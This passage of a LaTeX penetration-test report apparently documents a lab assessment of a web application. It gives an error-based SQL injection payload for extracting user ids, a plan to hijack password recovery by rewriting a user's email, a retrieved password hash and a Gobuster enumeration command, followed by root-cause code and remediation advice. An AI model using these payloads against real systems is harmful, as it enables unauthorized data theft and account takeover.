
\includegraphics[width=0.8\textwidth]{id.png}
\caption{Column Name Extraction}
\label{fig:sql_injection}
\end{figure}

\FloatBarrier

We can use that field to get the id of the second user 'jackOfspade' using 

\begin{verbatim}
' OR updatexml(0,concat('~',(SELECT id FROM agents where username like 'jackOfspade'),'~'),0) OR' 
\end{verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{8.png}
\caption{Id Number Extraction from Agent Username}
\label{fig:sql_injection}
\end{figure}

\FloatBarrier

As id was not encrypted, we can go to \texttt{recovery.php} and put id to get the password but since we are not getting the password and it says that it is being sent to device which can probably be via email (whose column does not exist) either way we can get the password if we use the update query and update the email to our email and then change it back.

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{Recovery.png}
\caption{Passwaor Recovery Through Id Number }
\label{fig:sql_injection}
\end{figure}

\FloatBarrier 

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{script.png}
\caption{Schema Extraction from Script}
\label{fig:sql_injection}
\end{figure}

\FloatBarrier

It was also confirmed that the \texttt{agents} table contained both \texttt{username} and hashed \texttt{password} fields. We retrieved the hash for \texttt{jackOfspace}, which was \texttt{617882784af86bff022c4b57a62c807b}, but since it wasn't in plain text, it wasn't useful to us.

\subsubsection{Root Cause Analysis}
The vulnerability stems from the application directly embedding user input into an SQL query string:
\begin{lstlisting}
String query = "SELECT * FROM users WHERE category = " + req.params.user;
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
\end{lstlisting}
OR
\begin{lstlisting}
   models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: true })
\end{lstlisting}
This use of unparameterized SQL makes it possible to inject and manipulate the query structure.

\subsubsection{Remediation Recommendations}
\begin{itemize}
    \item Replace dynamic SQL queries with parameterized queries or prepared statements.
    \item Use input sanitization and validation for all user-supplied values.
    \item Disable detailed error messages in production to prevent information disclosure.
    \item Review all SQL interactions in the codebase for unsafe patterns.
    \item Use encryption to sore Ids in the database, never directly store it.
    \item Apply role-based access control and monitoring to track anomalous login activity.
    \begin{lstlisting}

\end{lstlisting}
\end{itemize}

\begin{verbatim}
models.sequelize.query(`SELECT * FROM Users WHERE email = $1 
AND password = $2 AND deletedAt IS NULL`, 
{ bind: [ req.body.email, security.hash(req.body.password) ], 
model: models.User, plain: true })
\end{verbatim}
%--------------------------------------------------

\subsection{Directory/File Enumeration (Gobuster)}

\subsubsection{Initial Discovery with Gobuster}
To identify hidden or unlinked files and directories, we used the tool \texttt{Gobuster} \cite{gobuster-kali} in directory enumeration mode. The following command was executed:

\begin{verbatim}
gobuster dir --url http://172.17.0.2 \
--wordlist sam-gh-directories-lowercase-top100000.txt \
-x php,html
\end{verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{PT6.png}
\caption{Directories Revealed Through Gobuster}
\label{fig:sql_injection}
\end{figure}

\FloatBarrier

This scan attempted to access common file paths and extensions using a known wordlist and resulted in the discovery of several important resources.

\subsubsection{Identified Endpoints}
Gobuster revealed the existence of the following accessible paths:

\begin{itemize}
    \item \texttt{/login.php} – Login form, used to test SQL injection.
    \item \texttt{/debug.php} – PHP configuration page leaking server info.
    \item \texttt{/config.php} – Configuration file (empty).
    \item \texttt{/report.php} – Interface where XSS was tested.
    \item \texttt{/recovery.php}, \texttt{/logout.php}, \texttt{/send.php} – Authentication/session-related routes.
\end{itemize}

The discovery of \texttt{/debug.php} in particular was significant, as it exposed sensitive internal details including the PHP version, enabled modules, and configuration directives.

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{PT7.png}
\caption{ Discovery of debug.php}
\label{fig:sql_injection}
\end{figure}

\FloatBarrier


\subsubsection{Sensitive PHP Configuration Disclosure}
Accessing \texttt{/debug.php} reveals detailed server setup that can help attackers craft targeted exploits.\\
When the \texttt{/debug.php} endpoint was visited, it displayed the complete output of the \texttt{phpinfo()} function. This revealed a wide range of internal configuration details, including:

\begin{itemize}
  \item \textbf{PHP version:} PHP 7.2.34, which has reached end-of-life and is known to contain unpatched security vulnerabilities\cite{PHP 7.2.34 Vulnerability Report}.

    \begin{figure}[h!]
    \centering
